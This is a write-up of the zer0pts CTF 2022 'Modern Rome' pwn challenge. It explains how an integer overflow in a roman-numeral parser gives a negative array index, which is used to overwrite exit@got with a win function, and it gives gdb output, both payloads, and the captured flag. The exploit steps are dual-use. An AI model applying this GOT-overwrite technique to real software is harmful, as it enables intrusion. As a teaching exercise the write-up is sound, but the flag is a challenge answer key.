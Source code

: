 # zer0pts CTF 2022 - Modern Rome

Original challenge link: https://2022.ctf.zer0pts.com/tasks/

You can also download chall file in my repo: [modern-rome.zip](modern-rome.zip)

Download the zip, then extract it and let's start!

# 1. Find bug

First, we will use `file` and `checksec` to get the basic information:

```
$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=56e9bd22c71b88be6d1f336fcfcc733584d27d8c, for GNU/Linux 3.2.0, not stripped

$ checksec chall
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We can see that `Canary found` so buffer overflow cannot be done. But we can also see that `Partial RELRO`, which means we can overwrite @got if we have the ability.

Next, we will read the source code to get the flow and we know that the function readroman() is absolutely interesting:

```
short readroman(){
    short res = 0;
    std::string s;

    std::cin >> s;
    auto it = s.crbegin();

    int b = 1;
    for (auto c: "IXCM") {
        int cnt = 0;
        while (cnt < 9 && it != s.crend() && *it == c) {
            it++;
            cnt++;
        }
        res += b * cnt;
        b *= 10;
    }

    return res;
}
```

First, we input to the string `s` and then, it will be convert to a vector of string using `crbegin()`, which you can read [here](https://www.cplusplus.com/reference/vector/vector/crbegin/). One thing to notice is that `crbegin()` will take the string from the end and `crend()` will take the string from the begining.

Then, it will compare our string from bottom to up with the character of `c` from I, X, C, M and null byte. What? Null byte? Yeah, the for loop will loop 5 times with 5 characters is I, X, C, M and `\x00`.

You can modify the code to print the character `c` one by one like this:

```
short readroman(){
    ...
    for (auto c: "IXCM") {
    	// Add this
    	int a = c;    // Change char to int
    	std::cout << a << std::endl;
        
        int cnt = 0;
        ...
    }
    ...
```

And we compile with `g++`, then run again and we get this:

![try-after-modified.png](images/try-after-modified.png)

So the program will compare if our input is equal to `c`, the while loop will be execute. And if we input full of 9 I or X or C or M or `\x00`, we will get the maximum number is `99999`.

We know that `res` in readroman() is defined as `short`, and the range data is just from -32768 to 32767, which you can found in [this article](https://docs.microsoft.com/vi-vn/cpp/cpp/data-type-ranges?view=msvc-160). And with the ability to sum up to `99999`, which add to `res` will cause **integer overflow**

# 2. Brainstorming

With the ability to make a negative index, we can change data before `buf`, particularly is exit@got because that's the only place we can overwrite. 

Summary:

1. Make `buf[ind]` point to exit@got
2. Change exit@got

# 3. Exploit

### Stage 1: Make `buf[ind]` point to exit@got

Remember that our input string will be check from bottom to up so our payload will look like this:

```
payload = b'\x00'*a
payload += b'M'*b
payload += b'C'*c
payload += b'X'*d
payload += b'I'*e
```

With a, b, c, d, e we will use gdb and check until we find the correct number. After a while trying, we got this update payload for `ind`:

```
payload = b'\x00'*6
payload += b'M'*5
payload += b'C'*1
payload += b'X'*6
payload += b'I'*4
```

Send that payload and we pause the program to attach gdb, then set breakpoint to check the address:

```
gef➤  disas main
   ...
   0x0000000000401562 <+205>:	lea    rdx,[rax+rax*1]
   0x0000000000401566 <+209>:	lea    rax,[rip+0x2dd3]        # 0x404340 <buf>
   0x000000000040156d <+216>:	mov    WORD PTR [rdx+rax*1],cx
   0x0000000000401571 <+220>:	mov    edi,0x0
   0x0000000000401576 <+225>:	call   0x4011a0 <exit@plt>
End of assembler dump.

gef➤  b*0x000000000040156d
Breakpoint 1 at 0x40156d
```

And type `c` to continue running to breakpoint, then check the address:

![check-exit_got-gdb.png](images/check-exit_got-gdb.png)

So we know it's correct. Let's move on!

### Stage 2: Change exit@got

Notice the breakpoint above, it move `cx` to the address, which we made it point to exit@got in the stage 1. And `cx` will just move 2 bytes to the value with that address so we just need to take 2 last bytes of win() function:

![get-win-address.png](images/get-win-address.png)

So we will need to write `4854` to last 2 bytes of exit@got and we have this second payload:

```
payload = b'M'*4      # 4000
payload += b'C'*8     #  800
payload += b'X'*5     #   50
payload += b'I'*4     #    4
```

Just pass it to `val` and we get the shell. Full code: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `zer0pts{R0me_w1ll_3x1st_a5_1on9_4s_th3_Col1s3um_d0es}`